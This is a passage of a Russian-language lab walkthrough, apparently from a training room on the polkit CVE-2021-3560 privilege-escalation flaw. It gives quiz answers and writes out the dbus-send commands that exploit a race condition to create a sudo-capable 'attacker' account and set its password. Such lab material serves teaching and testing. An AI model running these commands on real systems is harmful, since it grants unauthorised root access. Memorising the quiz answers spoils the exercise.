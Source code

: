 Если сейчас это вам не понятно, надеюсь, вы поймете это после того, как сами воспользуетесь возможностью выполнить 
эксплойт! 

#### Ответить на вопросы ниже
В какой версии Ubuntu policykit-1 исправлена уязвимость CVE-2021-3560?
```commandline
0.105-26ubuntu1.1
```
Какую программу можно использовать для запуска команд от имени других пользователей через polkit?

```commandline
pkexec
```

## Задание 4
Мы рассмотрели теорию, теперь давайте посмотрим на ее применение!

Давайте попробуем добавить нового пользователя с именем attacker, с правами sudo и паролем Expl01ted. Просто 
прочтите эту информацию сейчас — у вас будет время попробовать ее в следующем задании! 

Сначала давайте рассмотрим сообщения dbus, которые нам нужно будет отправить:

```commandline
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.
freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1
```

Эта команда вручную отправит сообщение dbus демону учетных записей, выведет ответ и создаст нового пользователя с 
именем attacker ( string:attacker) с описанием «Учетная запись Pentester» ( string:"Pentester Account") и членством 
в группе sudo, установленным на значение true (на которое ссылается флаг int32:1).  

Наше второе сообщение dbus установит пароль для новой учетной записи:
```commandline
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply 
/org/freedesktop/Accounts/UserUSER_ID org.freedesktop.Accounts.User.SetPassword string:'PASSWORD_HASH' string:'Ask 
the pentester' 
```

Это снова отправляет сообщение dbus демону учетных записей, запрашивая смену пароля для пользователя с указанным 
нами идентификатором (показан красным), хэш пароля, который нам нужно сгенерировать вручную, и подсказку («Спросите 
пентестера»).  

Поскольку это фактически состояние гонки, нам сначала нужно определить, сколько времени займет выполнение нашей 
команды. Давайте попробуем это с первым сообщением dbus: 
```commandline
time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts 
org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1 
```
